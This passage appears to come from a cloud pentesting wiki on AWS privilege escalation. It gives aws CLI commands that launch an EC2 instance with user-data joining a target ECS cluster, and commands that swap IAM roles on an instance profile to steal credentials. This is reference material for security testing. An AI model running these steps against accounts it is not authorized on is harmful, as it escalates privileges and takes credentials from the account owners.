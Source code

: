 {% code overflow="wrap" %}
```bash
aws ec2 run-instances \
--image-id ami-07fde2ae86109a2af \
--instance-type t2.micro \
--iam-instance-profile <ECS_role> \
--count 1 --key-name pwned \
--user-data "file:///tmp/asd.sh"

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```
{% endcode %}

To learn how to **force ECS services to be run** in this new EC2 instance check:

{% content-ref url="aws-ecs-privesc.md" %}
[aws-ecs-privesc.md](aws-ecs-privesc.md)
{% endcontent-ref %}

If you **cannot create a new instance** but has the permission `ecs:RegisterContainerInstance` you might be able to register the instance inside the cluster and perform the commented attack.

**Potential Impact:** Direct privesc to ECS roles attached to tasks.

### **`iam:PassRole`,** **`iam:AddRoleToInstanceProfile`**

Similar to the previous scenario, an attacker with these permissions could **change the IAM role of a compromised instance** so he could steal new credentials.\
As an instance profile can only have 1 role, if the instance profile **already has a role** (common case), you will also need **`iam:RemoveRoleFromInstanceProfile`**.

{% code overflow="wrap" %}
```bash
# Removing role from instance profile
aws iam remove-role-from-instance-profile --instance-profile-name <name> --role-name <name>

# Add role to instance profile
aws iam add-role-to-instance-profile --instance-profile-name <name> --role-name <name>
```
{% endcode %}
